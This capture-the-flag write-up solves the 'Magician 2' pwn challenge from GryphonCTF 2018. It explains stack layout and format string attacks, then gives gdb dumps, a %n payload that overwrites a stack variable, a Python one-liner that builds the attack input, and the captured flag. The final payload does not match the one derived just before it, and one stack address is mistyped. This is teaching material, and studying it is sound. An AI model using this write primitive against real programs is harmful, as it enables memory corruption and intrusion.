 # Magician 2

## Question Text

I got inspired by PotatoDrug's magic show, so I made my own.

You may need 32 bit libraries for this on 64-bit machines! `apt-get install libc6-i386`

Or use whatever command you would to get the 32-bit libs...

`nc pwn.chal.gryphonctf.com 18156`

*Creator - @IncompetentDev*

### Hints

1. Wonder what the whispering voice was about. Maybe it tells me about where the secret number is stored?
2. The magic of (%d or %x) and %n to get a new number...

## Setup Guide

1. Build binaries: `make` in generate
    - Distributes binaries to distrib and service
2. Build docker image: `./build.sh` in service
3. Run docker image: `./run.sh` in service

## Distribution
- magic2.c
    - SHA1: 45075a9643f1213c461840380bc6656942f77886
    - Source code for magic2
    
- magic2-distrib
    - SHA1: 74c646a5cba3d98b34dc0e6e34c88cf1ce12851e  
    - ELF 32-bit LSB executable 

## Solution

This problem requires a firm grasp of memory structure (how programs use memory, specifically the stack).

This problem also requires intimate knowledge on format string attacks. 

<details>
    <summary>
   	 **Stack Explanation**
    </summary>
	
  ![logo](https://i.stack.imgur.com/zgw0O.png)

  1. Programs store data on stack (resides on RAM). Each program may have different functions; and each function has a memory  structure resembling that of the image. For this problem, we are looking specifically at the stack frame for pwn(), where fixed-size variables are stored.


      int secretnum = (rand() % 1000000) + 1000000;
      char buf[sizeOfBuf];
  2. `secretnum` and `buf` are two such fixed-size variables that are stored onto the stack. Our goal is to override `secretnum` using the format string vulnerability present to get a value of 50. (Covered later)
</details>

<details>
	<summary>
    	**Format String attacks**
    </summary>

This attack are commonly executed against `printf` statements (or equivalent "Format Functions" eg `sprintf`), when inputs are passed in directly as an argument to the format function. (eg `char str[20]="%d%d%d"; printf(str);` which results in `printf("%d%d%d");` )

What usually happens with a format function is that it pushes its arguments to the top of the stack. For example, `int num=5; printf("%d, num");` would push 5 to the top of the stack, and `%d` tells the printf function to look through the top 32 bits (a 4 byte integer, which is what `%d` represents) and use that as the value to print. In this case, it would be 5.

Omitting the `num` argument to `printf` would still result in printf searching through the 4 bytes of the stack. However, the number 5 is not pushed to the stack. This results in printf returning whatever is currently at the top of the stack, allowing an attacker to read arbitrary values.

Subsequent `%d` tokens would allow an attacker to continue reading down the stack, so for example `%d%d` would read 2 integers, or 8 bytes worth of data.

Also notable is the `%n` token in `printf()`, which will read 4 bytes of data from the stack and interpret it as a memory address, instead of a value(which `%d` does). `%n` writes the number of characters printed by the `printf()` function to the address derived from the stack . For example, if `%n` reads in `0xffffd8d8` as the next 4 bytes, and `printf()` printed "asdasdasd", it would write the value 9 into the memory address 0xffffd8d8.
</details>

<details>
	<summary>
		**Exploitation**
    </summary>
    
    
# [IMPORTANT: ENV VARIABLES PUSHED ONTO STACK MAY AFFECT YOUR ADDRESS OF `secretnum`! THIS EXPLOIT MAY NOT WORK FOR YOUR COMPUTER UNLESS YOU HAVE ADAPTED IT APPROPRIATELY! (aka target the program in a "constant" environment!)](https://stackoverflow.com/questions/32771657/gdb-showing-different-address-than-in-code)

With these two pieces of information, exploitation is now possible.

When first connecting to the program, we get the following message.

    nc 127.0.0.1 18156
    Prove to me magicians can read minds!
    Before you start, please tell me your name (256 chars max): 
    (psst, this aint no magic trick, he's tricky!) 0xffffdd24

Notable is the `0xffffdd24` value printed (**THIS IS THE ADDRESS FOR MY PROGRAM YOURS MAY DIFFER**). It corresponds to a memory address! Looking at the source code, there is a line:

    printf("(psst, this aint no magic trick, he's tricky!) %p\n",&secretnum);
	
This shows the address of `secretnum`! This will be useful later. (**address of where variables are stored differ because of environmental variables**: you'll find that the address on the server and your own computer slightly different, which necessitates this particular information)

Inspecting the code, we also find these lines of interest:
    
    //get input
	fgets(buf, sizeOfBuf, stdin);
	
	//concat str
	strcat(buf, "'s prediction: "); 
	
	//print user's name + concat string
	printf(buf);

There is a format string vulnerability here! Users can enter any input into the char array `buf` which is passed into `printf` as an argument. A user could enter `%d%d%d` and pass it in as an argument to `printf`, effectively doing `printf("%d%d%d")`.

Now would be a good time to inspect what the stack looks like when the program is running. Load up the trusty `gdb`.

<details>
	<summary>
    	`GDB dump`
    </summary>
    
	gdb magic2-distrib
    GNU gdb (Ubuntu 7.11.1-0ubuntu1~16.5) 7.11.1
    Copyright (C) 2016 Free Software Foundation, Inc.
    License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
    This is free software: you are free to change and redistribute it.
    There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
    and "show warranty" for details.
    This GDB was configured as "x86_64-linux-gnu".
    Type "show configuration" for configuration details.
    For bug reporting instructions, please see:
    <http://www.gnu.org/software/gdb/bugs/>.
    Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.
    For help, type "help".
    Type "apropos word" to search for commands related to "word"...
    Reading symbols from magic2-distrib...(no debugging symbols found)...done.
    (gdb) disas *pwn
    Dump of assembler code for function pwn:
    0x08048608 <+0>:	push   %ebp
    0x08048609 <+1>:	mov    %esp,%ebp
    0x0804860b <+3>:	push   %edi
    0x0804860c <+4>:	push   %esi
    0x0804860d <+5>:	push   %ebx
    0x0804860e <+6>:	sub    $0x2c,%esp
    0x08048611 <+9>:	mov    %esp,%eax
    0x08048613 <+11>:	mov    %eax,%esi
    0x08048615 <+13>:	sub    $0xc,%esp
    0x08048618 <+16>:	push   $0x0
    0x0804861a <+18>:	call   0x8048430 <time@plt>
    0x0804861f <+23>:	add    $0x10,%esp
    0x08048622 <+26>:	sub    $0xc,%esp
    0x08048625 <+29>:	push   %eax
    0x08048626 <+30>:	call   0x8048460 <srand@plt>
    0x0804862b <+35>:	add    $0x10,%esp
    0x0804862e <+38>:	call   0x8048490 <rand@plt>
    0x08048633 <+43>:	mov    %eax,%ecx
    0x08048635 <+45>:	mov    $0x431bde83,%edx
    0x0804863a <+50>:	mov    %ecx,%eax
    0x0804863c <+52>:	imul   %edx
    0x0804863e <+54>:	sar    $0x12,%edx
    ---Type <return> to continue, or q <return> to quit---
    0x08048641 <+57>:	mov    %ecx,%eax
    0x08048643 <+59>:	sar    $0x1f,%eax
    0x08048646 <+62>:	sub    %eax,%edx
    0x08048648 <+64>:	mov    %edx,%eax
    0x0804864a <+66>:	imul   $0xf4240,%eax,%eax
    0x08048650 <+72>:	sub    %eax,%ecx
    0x08048652 <+74>:	mov    %ecx,%eax
    0x08048654 <+76>:	add    $0xf4240,%eax
    0x08048659 <+81>:	mov    %eax,-0x24(%ebp)
    0x0804865c <+84>:	sub    $0x8,%esp
    0x0804865f <+87>:	lea    -0x24(%ebp),%eax
    0x08048662 <+90>:	push   %eax
    0x08048663 <+91>:	push   $0x804887c
    0x08048668 <+96>:	call   0x8048410 <printf@plt>
    0x0804866d <+101>:	add    $0x10,%esp
    0x08048670 <+104>:	mov    $0x100,%eax
    0x08048675 <+109>:	sub    $0x1,%eax
    0x08048678 <+112>:	mov    %eax,-0x1c(%ebp)
    0x0804867b <+115>:	mov    $0x100,%eax
    0x08048680 <+120>:	mov    %eax,%edx
    0x08048682 <+122>:	mov    $0x10,%eax
    0x08048687 <+127>:	sub    $0x1,%eax
    0x0804868a <+130>:	add    %edx,%eax
    ---Type <return> to continue, or q <return> to quit---
    0x0804868c <+132>:	mov    $0x10,%ebx
    0x08048691 <+137>:	mov    $0x0,%edx
    0x08048696 <+142>:	div    %ebx
    0x08048698 <+144>:	imul   $0x10,%eax,%eax
    0x0804869b <+147>:	sub    %eax,%esp
    0x0804869d <+149>:	mov    %esp,%eax
    0x0804869f <+151>:	add    $0x0,%eax
    0x080486a2 <+154>:	mov    %eax,-0x20(%ebp)
    0x080486a5 <+157>:	mov    0x804a040,%edx
    0x080486ab <+163>:	mov    $0x100,%ecx
    0x080486b0 <+168>:	mov    -0x20(%ebp),%eax
    0x080486b3 <+171>:	sub    $0x4,%esp
    0x080486b6 <+174>:	push   %edx
    0x080486b7 <+175>:	push   %ecx
    0x080486b8 <+176>:	push   %eax
    0x080486b9 <+177>:	call   0x8048420 <fgets@plt>
    0x080486be <+182>:	add    $0x10,%esp
    0x080486c1 <+185>:	mov    -0x20(%ebp),%edx
    0x080486c4 <+188>:	mov    %edx,%eax
    0x080486c6 <+190>:	mov    $0xffffffff,%ecx
    0x080486cb <+195>:	mov    %eax,%ebx
    0x080486cd <+197>:	mov    $0x0,%eax
    0x080486d2 <+202>:	mov    %ebx,%edi
    ---Type <return> to continue, or q <return> to quit---
    0x080486d4 <+204>:	repnz scas %es:(%edi),%al
    0x080486d6 <+206>:	mov    %ecx,%eax
    0x080486d8 <+208>:	not    %eax
    0x080486da <+210>:	sub    $0x1,%eax
    0x080486dd <+213>:	add    %edx,%eax
    0x080486df <+215>:	movl   $0x70207327,(%eax)
    0x080486e5 <+221>:	movl   $0x69646572,0x4(%eax)
    0x080486ec <+228>:	movl   $0x6f697463,0x8(%eax)
    0x080486f3 <+235>:	movl   $0x203a6e,0xc(%eax)
    0x080486fa <+242>:	sub    $0xc,%esp
    0x080486fd <+245>:	push   $0x80488b0
    0x08048702 <+250>:	call   0x8048440 <puts@plt>
    0x08048707 <+255>:	add    $0x10,%esp
    0x0804870a <+258>:	mov    -0x20(%ebp),%eax
    0x0804870d <+261>:	sub    $0xc,%esp
    0x08048710 <+264>:	push   %eax
    0x08048711 <+265>:	call   0x8048410 <printf@plt>
    0x08048716 <+270>:	add    $0x10,%esp
    0x08048719 <+273>:	mov    0x804a040,%eax
    0x0804871e <+278>:	sub    $0x4,%esp
    0x08048721 <+281>:	push   %eax
    0x08048722 <+282>:	push   $0x8
    0x08048724 <+284>:	lea    -0x2c(%ebp),%eax
    ---Type <return> to continue, or q <return> to quit---
    0x08048727 <+287>:	push   %eax
    0x08048728 <+288>:	call   0x8048420 <fgets@plt>
    0x0804872d <+293>:	add    $0x10,%esp
    0x08048730 <+296>:	mov    -0x24(%ebp),%eax
    0x08048733 <+299>:	cmp    $0x32,%eax
    0x08048736 <+302>:	jne    0x804873f <pwn+311>
    0x08048738 <+304>:	call   0x804875e <win>
    0x0804873d <+309>:	jmp    0x8048753 <pwn+331>
    0x0804873f <+311>:	mov    -0x24(%ebp),%eax
    0x08048742 <+314>:	sub    $0x8,%esp
    0x08048745 <+317>:	push   %eax
    0x08048746 <+318>:	push   $0x80488fc
    0x0804874b <+323>:	call   0x8048410 <printf@plt>
    0x08048750 <+328>:	add    $0x10,%esp
    0x08048753 <+331>:	mov    %esi,%esp
    0x08048755 <+333>:	nop
    0x08048756 <+334>:	lea    -0xc(%ebp),%esp
    0x08048759 <+337>:	pop    %ebx
    0x0804875a <+338>:	pop    %esi
    0x0804875b <+339>:	pop    %edi
    0x0804875c <+340>:	pop    %ebp
    0x0804875d <+341>:	ret    
    End of assembler dump.
    (gdb) 
    (gdb) break *pwn+265
    Breakpoint 1 at 0x8048711
    (gdb) run
    Starting program: /home/kht/Desktop/GCTFLite/GryphonCTF2018-Lite-Challenges/challenges/pwn/Magician2/distrib/magic2-distrib 
    Prove to me magicians can read minds!
    Before you start, please tell me your name (256 chars max): 
    (psst, this aint no magic trick, he's tricky!) 0xffffcf54				<----- notice the difference in address from the server program and locally run program
    %d %d %d %d %d %d      
    I'm thinking of a random number (0 to 1000000), can you tell me what it is?

    Breakpoint 1, 0x08048711 in pwn ()
    (gdb) x/10dw $esp
    0xffffce30:	-12736	256	-134519392	0
    0xffffce40:	622879781	1680154724	543434016	622879781
    0xffffce50:	1931938404	1701998624
    (gdb) c
    Continuing.
    256 -134519392 0 622879781 1680154724 543434016
    's prediction:


</details>

This section of `gdb's` output should be examined more closely:
 
<details>
	<summary>
    	`GDB dump`
    </summary>
    
 
    (gdb) break *pwn+265 			<-------------------------------------------- note: printf(buf) statement
    Breakpoint 1 at 0x8048711
    (gdb) run
    Starting program: /home/kht/Desktop/GCTFLite/GryphonCTF2018-Lite-Challenges/challenges/pwn/Magician2/distrib/magic2-distrib 
    Prove to me magicians can read minds!
    Before you start, please tell me your name (256 chars max): 
    (psst, this aint no magic trick, he's tricky!) 0xffffcf54
    %d %d %d %d %d %d      
    I'm thinking of a random number (0 to 1000000), can you tell me what it is?

    Breakpoint 1, 0x08048711 in pwn ()
    (gdb) x/10dw $esp
    0xffffce30:	-12736	256	-134519392	0
    0xffffce40:	622879781	1680154724	543434016	622879781
    0xffffce50:	1931938404	1701998624
    (gdb) c
    Continuing.
    256 -134519392 0 622879781 1680154724 543434016
    's prediction:
    

</details>
    
    
Using `gdb` to stop the program before the `printf()` statement was executed, the stack was examined with `x/10dw $esp`, which prints the first 10 integers off the top of the stack. After the `printf()` statement executed, it was found that the values `256`, `-134519392` and so on corresponded with the 6 `%d` tokens.

This proves a format string vulnerability, but what input would be required to change the address of `secretnum`?

Turns out, the `buf` char array is stored in the stack starting at the address `0xffffce430` (Notice the repeated 0x73 hex values, which is the hex value for the character `s`)
<details>
	<summary>
    	`GDB dump`
    </summary>
    
	(gdb) run
	The program being debugged has been started already.
	Start it from the beginning? (y or n) y
	Starting program: /home/kht/Desktop/GCTFLite/GryphonCTF2018-Lite-Challenges/challenges/pwn/Magician2/distrib/magic2-distrib 
	Prove to me magicians can read minds!
	Before you start, please tell me your name (256 chars max): 
	(psst, this aint no magic trick, he's tricky!) 0xffffcf54
	sssssssssssssssssssssssssssssssssssssssssssssssssss
	I'm thinking of a random number (0 to 1000000), can you tell me what it is?

	Breakpoint 1, 0x08048711 in pwn ()
	(gdb) x/40x $esp
	0xffffce30:	0xffffce40	0x00000100	0xf7fb65a0	0x00000000
	0xffffce40:	0x73737373	0x73737373	0x73737373	0x73737373
	0xffffce50:	0x73737373	0x73737373	0x73737373	0x73737373
	0xffffce60:	0x73737373	0x73737373	0x73737373	0x73737373
	0xffffce70:	0x0a737373	0x70207327	0x69646572	0x6f697463
	0xffffce80:	0x00203a6e	0xf7ffd918	0xffffcea0	0x080482e8
	0xffffce90:	0x00000000	0xf7fd8170	0x00000000	0x00000000
	0xffffcea0:	0xf7fe3a70	0x08048248	0xf7e35371	0xf7fb6000
	0xffffceb0:	0xf7fe3a70	0x08048278	0x00000001	0xf7ffd918
	0xffffcec0:	0x0804a02c	0xf7fe88a2	0xf7ffdad0	0xf7fd4490


</details>


Now the value of `secretnum` at the address `0xffffdd24` must be overwritten to get the flag.

The value of the address `0xffffdd24` must be pushed onto the stack (through the `buf` char array) to accomplish that. Typing the address in little endian format as input: `\x24\xdd\xff\xff`, where `\x` represents a hexadecimal value with the following two characters representing the hex value, the address value can be written onto the stack.

Next, `%n` must read this address so it writes to this portion. Hence, 4 preceding `%d` tokens must be added to allow `%n` to read the address. The current input should now be `\x24\xdd\xff\xff%d%d%d%d%n`. This prints:

	$���256-1344251840

The 2nd, 3rd and 4th characters are not valid ASCII characters, hence showing a "?" or something not visible. This prints a total of 18 characters. If input into the program, we find that we get the output:

	I'm thinking of a random number (0 to 1000000), can you tell me what it is?
	$���256-1344251840
	's prediction: HA! the answer was 18 see I knew you couldn't read my mind.

Almost done! Now, `printf()` just needs to print a total of 50 characters to write the value 50 to `secretnum`.

One of the ways to force `printf()` to print more characters easily would be to specify the precision for the printf token. We can use the following:

`"\x24\xdd\xff\xff%016d%016d%014d%n"`

4+16+16+14=50

To print the appropriate output, `python` can be used. 

Python 3: `python3 -c "print('s'*8+'\x24\xdd\xff\xff'+'%d'*5+'s'*4+'%n')" > attack`

Direct the contents of the `attack` file into the program stdin to get the flag.

	kht@ubuntu:~/Desktop/GCTFLite/GryphonCTF2018-Lite-Challenges/challenges/pwn/Magician2/solution$ nc 127.0.0.1 18156 < ./attack1
	Prove to me magicians can read minds!
	Before you start, please tell me your name (256 chars max): 
	(psst, this aint no magic trick, he's tricky!) 0xffffdd24
	I'm thinking of a random number (0 to 1000000), can you tell me what it is?
	$���0000000000000256-00000013442518400000000000000
	's prediction: Magic??
	GCTF{unl1k3ly_y0ull_us3_th15_0uts1d3_0f_ctf5}

</details>

### Flag
`GCTF{unl1k3ly_y0ull_us3_th15_0uts1d3_0f_ctf5}`

## Recommended Reads

* https://bitvijays.github.io/LFC-BinaryExploitation.html#format-string-vulnerability

